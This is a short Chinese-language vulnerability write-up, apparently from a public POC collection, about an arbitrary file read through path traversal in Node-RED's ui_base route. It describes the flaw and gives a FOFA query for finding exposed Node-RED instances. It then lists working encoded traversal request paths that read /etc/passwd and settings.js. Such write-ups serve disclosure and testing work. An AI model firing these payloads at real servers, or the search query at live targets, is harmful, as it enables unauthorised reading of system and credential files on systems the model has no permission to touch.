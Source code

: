 # Node-RED-ui_base-任意文件读取漏洞

## 漏洞描述

Node-RED 在/nodes/ui_base.js中，URL与'/ui_base/js/*'匹配，然后传递给path.join，

缺乏对最终路径的验证会导致路径遍历漏洞，可以利用这个漏洞读取服务器上的敏感数据，比如settings.js

## 漏洞影响

> [!NOTE]
>
> Node-RED

## FOFA

> [!NOTE]
>
> title="Node-RED"

## 漏洞复现

访问页面

![image-20210701185722667](Node-RED-ui_base-任意文件读取漏洞.assets/16273631121668532.jpg)

验证POC

```
/ui_base/js/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
/ui_base/js/..%2f..%2f..%2f..%2fsettings.js
```

![image-20210701185812622](Node-RED-ui_base-任意文件读取漏洞.assets/1627363112563524.jpg)

![image-20210704171045540](Node-RED-ui_base-任意文件读取漏洞.assets/16273631128380291.jpg)